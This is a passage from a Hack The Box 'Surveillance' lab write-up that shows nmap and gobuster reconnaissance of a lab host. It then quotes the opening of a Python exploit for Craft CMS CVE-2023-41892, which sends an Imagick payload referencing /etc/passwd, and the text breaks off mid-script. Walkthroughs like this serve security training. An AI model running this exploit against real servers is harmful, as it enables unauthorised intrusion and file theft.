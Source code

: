 ### HTB | Surveillance CVE-2023-41892 CVE-2023-26035

使用nmap进行端口扫描

```
nmap -sV -sC -v -oN Surveillance.log 10.10.11.245  
```

```
# Nmap 7.93 scan initiated Mon Dec 18 08:57:23 2023 as: nmap -sV -sC -v -oN Surveillance.log 10.10.11.245
Nmap scan report for 10.10.11.245
Host is up (0.56s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://surveillance.htb/
1080/tcp open  socks5  (Username/password authentication required)
| socks-auth-info: 
|   No authentication
|   No authentication
|_  Username and password
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Dec 18 08:58:03 2023 -- 1 IP address (1 host up) scanned in 39.68 seconds
```



使用gobuster进行目录扫描

```
gobuster dir -u http://surveillance.htb --wordlist=/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -q -t 200 -x .php,.zip,.txt,.html
```



使用谷歌搜索craft cms 4.4.14 rce 找到**[CVE-2023-41892](https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226)**

```
import requests
import re
import sys

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36"
}

def writePayloadToTempFile(documentRoot):

    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/etc/passwd"}}}'
    }

```